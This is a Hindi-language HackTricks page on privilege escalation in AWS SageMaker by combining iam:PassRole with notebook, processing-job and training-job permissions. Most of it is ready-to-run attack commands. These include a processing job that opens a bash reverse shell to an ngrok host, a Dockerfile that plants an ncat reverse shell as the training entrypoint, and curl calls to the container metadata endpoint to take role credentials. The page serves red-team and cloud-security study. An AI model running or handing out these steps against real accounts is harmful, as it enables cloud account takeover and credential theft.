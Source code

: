 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM भूमिका के साथ एक नोटबुक बनाना शुरू करें जो इससे जुड़ी है:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में `NotebookInstanceArn` फ़ील्ड होना चाहिए, जिसमें नए बनाए गए नोटबुक उदाहरण का ARN होगा। फिर हम `create-presigned-notebook-instance-url` API का उपयोग करके एक URL उत्पन्न कर सकते हैं जिसका उपयोग हम नोटबुक उदाहरण तक पहुँचने के लिए कर सकते हैं जब यह तैयार हो:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

अब IAM भूमिका के मेटाडेटा क्रेडेंशियल्स तक पहुंचना संभव है।

**Potential Impact:** सागेमेकर सेवा भूमिका में प्रिवेस्क।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

यदि Jupyter **नोटबुक पहले से चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` के साथ सूचीबद्ध कर सकते हैं (या किसी अन्य तरीके से उन्हें खोज सकते हैं)। आप उनके लिए **एक URL उत्पन्न कर सकते हैं, उन तक पहुंच सकते हैं, और पिछले तकनीक में बताए गए अनुसार क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सagemaker सेवा भूमिका में प्रिवेस्क।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उन अनुमतियों के साथ एक हमलावर **sagemaker को एक processingjob निष्पादित** करने के लिए मजबूर कर सकता है जिसमें एक sagemaker भूमिका संलग्न है। हमलावर उस कंटेनर की परिभाषा निर्दिष्ट कर सकता है जो एक **AWS प्रबंधित ECS खाता उदाहरण** में चलाया जाएगा, और **संलग्न IAM भूमिका के क्रेडेंशियल्स चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बना सकेगा, **इस पर एक मनमाना कंटेनर चलाते हुए** जिसमें एक **भूमिका संलग्न** होगी। इसलिए, हमलावर भूमिका के क्रेडेंशियल्स चुरा सकेगा।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले की तुलना में शोषण करने के लिए अधिक कठिन है क्योंकि आपको एक डॉकर इमेज उत्पन्न करनी होगी जो रेव शेल या क्रेड्स को सीधे हमलावर को भेजेगी (आप प्रशिक्षण नौकरी की कॉन्फ़िगरेशन में प्रारंभिक कमांड निर्दिष्ट नहीं कर सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर (संभावित रूप से) एक **हाइपरपैरामीटर प्रशिक्षण कार्य** बनाने में सक्षम होगा, **इस पर एक मनमाना कंटेनर चलाते हुए** और इसके साथ एक **भूमिका संलग्न** करते हुए।\
&#xNAN;_&#x49; ने समय की कमी के कारण इसका लाभ नहीं उठाया, लेकिन यह पिछले शोषणों के समान दिखता है, शोषण विवरण के साथ PR भेजने के लिए स्वतंत्र महसूस करें।_

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर हमें फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें PRs को [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।**

</details>
{% endhint %}
